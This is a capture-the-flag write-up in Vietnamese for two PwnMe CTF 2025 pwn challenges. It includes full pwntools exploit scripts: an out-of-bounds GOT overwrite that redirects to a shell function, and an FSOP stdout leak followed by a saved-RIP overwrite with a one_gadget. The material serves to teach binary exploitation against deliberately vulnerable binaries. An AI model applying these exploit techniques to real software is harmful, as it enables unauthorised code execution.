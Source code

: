 ```yaml
--- 
title: PwnMe CTF Quals 2025
date: 2025-02-16 00:00:00 +0800
categories: [writeup]
tags: [pwn,writeup]
author: "kuvee"
layout: post
published: false
---
```


## got

checksec: 

```cs
ploi@PhuocLoiiiii:~/pwn/PwnMeCTF/got/got$ checksec got
[*] '/home/ploi/pwn/PwnMeCTF/got/got/got'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- main : chương trình rất đơn giản , đầu tiên ta sẽ được nhập 1 idx , tiếp sau đó là nhập dữ liệu vào ```PNJS[idx]```  và nó nằm tại ```0x0000000000404080``` 

```cs
int __fastcall main(int argc, const char **argv, const char **envp)
{
  int idx; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  idx = 0;
  puts("Hey ! I've never seen Game of Thrones and i think i misspelled a name, can you help me ?");
  puts("Which name is misspelled ?\n1. John\n2. Daenarys\n3. Bran\n4. Arya");
  fwrite("> ", 1uLL, 2uLL, stdout);
  __isoc99_scanf("%d", &idx);
  if ( idx > 4 )
  {
    puts("Huuuhhh, i do not know that many people yet...");
    _exit(0);
  }
  puts("Oh really ? What's the correct spelling ?");
  fwrite("> ", 1uLL, 2uLL, stdout);
  read(0, &PNJs[idx], 0x20uLL);
  puts("Thanks for the help, next time i'll give you a shell, i already prepared it :)");
  return 0;
}
```

- rõ ràng đây là 1 bài xảy ra bug ```oob``` , ta có thể ghi idx tiến đến got và ghi vào thứ gì đó để lấy shell và may mắn là có 1 hàm win

```cs
void __cdecl shell()
{
  system("/bin/sh");
}
```

exp: 

```cs
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./got',checksec=False)

#p = process()
p = remote('got-4d27ff88d1920941.deploy.phreaks.fr',443,ssl=True)

p.sendline(b'-4')
input()
p.send(p64(0x401036) + p64(exe.sym.shell))

p.interactive()
```

## einstein

checksec: full giáp

```cs
ploi@PhuocLoiiiii:~/pwn/PwnMeCTF/einstein/einstein$ checksec einstein
[*] '/home/ploi/pwn/PwnMeCTF/einstein/einstein/einstein'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

- handle: đây là hàm chứa dữ liệu chính cần khai thác của bài , đập vào mắt đầu tiên có lẽ là ta có 2 lệnh scanf -> ta có thể ghi tùy ý 2 lần 


```cs
int __cdecl handle()
{
  int offset; // [rsp+8h] [rbp-38h] BYREF
  unsigned int size; // [rsp+Ch] [rbp-34h] BYREF
  unsigned __int64 *wher; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 wat; // [rsp+18h] [rbp-28h] BYREF
  unsigned __int64 *wher2; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 wat2; // [rsp+28h] [rbp-18h] BYREF
  void *allocated; // [rsp+30h] [rbp-10h]
  unsigned __int64 v8; // [rsp+38h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  puts("\nHow long is your story ?");
  __isoc99_scanf("%u", &size);
  if ( size <= 0x27 )
  {
    puts("Well... It seems you don't really want to talk to me that much, cya.");
    _exit(1337);
  }
  allocated = malloc(size);
  puts("What's the distortion of time and space ?");
  __isoc99_scanf("%u", &offset);
  puts(
    "Well your story is quite long, time may be distored, but it is a priceless ressource, i'll give you a few words only"
    ", use them wisely.");
  read(0, (char *)allocated + offset, 0x22uLL);
  puts("Everything is relative... Or is it ???");
  __isoc99_scanf("%llu %llu", &wher, &wat);
  __isoc99_scanf("%llu %llu", &wher2, &wat2);
  *wher = wat;
  *wher2 = wat2;
  return 0;
}
```

- và bài này hốc búa ở chỗ là ta không biết bất cứ địa chỉ nào -> sẽ không thể ghi được gì , tuy nhiên để ý lại đoạn ở trên , ta được nhập 1 size và malloc(size) 
- tiếp theo ta được input vào 0x22 vào chunk đó , ở đây ta cần biết khi ta nhập 1 size lớn -> nó sẽ dùng mmap để tạo 1 vùng nhớ cho yêu cầu của malloc() , và vùng nhớ đó nằm dưới ngay libc

- ở đây mình nhập 1 size rất lớn

![here](/assets/images/PWNme2025/1.png)

- và nó nằm ngay dưới libc

![here](/assets/images/PWNme2025/2.png)

- như ta đã nói thì trước hết ta cần biết địa chỉ libc , ở đây ta cần tấn công ```fsop``` , chi tiết thì ta có thể xem ở [here](https://github.com/nobodyisnobody/docs/tree/main/using.stdout.as.a.read.primitive/)  , ở đây mình chọn overwrite ```IO_write_PTR``` bằng byte ```\xff```  hoặc là ta có thể overwrite như link trên cũng được , và may mắn là ta có libc lẫn stack_address  
- lúc đầu mình không leak được stack_address vì phiên bản libc bài cho không giống sever , sau khi build docker và lấy libc lại thì mới leak được stack :)))

- cuối cũng đơn giản là overwrite ```saved_rip``` thành one_gadget thôi , ta có 2 lần ghi nên ta có thể làm cho nó thõa mãn điều kiện của one_gadget

- ở đây mình chọn cái này : 

rax NULL sẵn và ta chỉ cần setup cho ```rbp-0x78``` thôi là được

```cs
0xeb66b execve("/bin/sh", rbp-0x50, [rbp-0x78])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [[rbp-0x78]] == NULL || [rbp-0x78] == NULL || [rbp-0x78] is a valid envp
```

exp: 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./einstein_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()

p.sendlineafter(b'How long is your story ?\n', str(0x50000).encode())


p.sendlineafter(b"What's the distortion of time and space ?\n", str(0x253790+0x28).encode())


input()
p.sendafter(b'.\n', b'\xff')

p.recv(5)
libc_leak = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f'libc leak: {hex(libc_leak)}')
p.recv(0x92)
leak_stack = u64(p.recv(6).ljust(8,b'\x00'))
log.info(f'leak_stack: {hex(leak_stack)}')
saved_rip = leak_stack - 0x120
log.info(f'saved_rip: {hex(saved_rip)}')
libc.address = libc_leak - 0x2008f0
log.info(f'libc: {hex(libc.address)}')
rbp = saved_rip + 8
og = [0xeb66b,0xeb60e,0x54f53,0x54f4c]

p.sendlineafter(b'Everything is relative... Or is it ???',str(int(saved_rip)) + ' ' + str(int(libc.address+og[0])))
input()
p.sendline(str(int(rbp-0x78)) + ' ' + str(int(0)))

p.interactive()
```